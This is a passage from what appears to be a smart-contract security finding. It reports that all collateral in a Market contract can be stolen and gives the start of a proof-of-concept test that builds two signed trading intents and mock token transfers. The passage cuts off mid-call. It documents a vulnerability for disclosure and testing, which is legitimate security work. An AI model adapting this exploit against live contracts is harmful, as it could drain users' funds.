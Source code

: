 ### Impact

All market collateral token balance is stolen.

### PoC

Add to `test/unit/Market.test.ts` in the `invariant violations` context:
```solidity
      it('multiple intents ignore pnl from the other intents price adjustments', async () => {
        const marketParameter = { ...(await market.parameter()) }
        marketParameter.maxPriceDeviation = parse6decimal('10.00')
        await market.updateParameter(marketParameter)

        const intent = {
          amount: parse6decimal('0.3'),
          price: parse6decimal('1250'),
          fee: parse6decimal('0.5'),
          originator: liquidator.address,
          solver: owner.address,
          collateralization: parse6decimal('0.01'),
          common: {
            account: user.address,
            signer: user.address,
            domain: market.address,
            nonce: 0,
            group: 0,
            expiry: 0,
          },
        }

        const intent2 = {
          amount: parse6decimal('0.3'),
          price: parse6decimal('1250'),
          fee: parse6decimal('0.5'),
          originator: liquidator.address,
          solver: owner.address,
          collateralization: parse6decimal('0.01'),
          common: {
            account: user.address,
            signer: user.address,
            domain: market.address,
            nonce: 1,
            group: 0,
            expiry: 0,
          },
        }

        const LOWER_COLLATERAL = parse6decimal('500')

        dsu.transferFrom.whenCalledWith(user.address, market.address, LOWER_COLLATERAL.mul(1e12)).returns(true)
        dsu.transferFrom.whenCalledWith(userB.address, market.address, LOWER_COLLATERAL.mul(1e12)).returns(true)
        dsu.transferFrom.whenCalledWith(userC.address, market.address, LOWER_COLLATERAL.mul(1e12)).returns(true)

        await market
          .connect(userB)
          ['update(address,uint256,uint256,uint256,int256,bool)'](
            userB.address,
            POSITION,
            0,
            0,
            LOWER_COLLATERAL,
```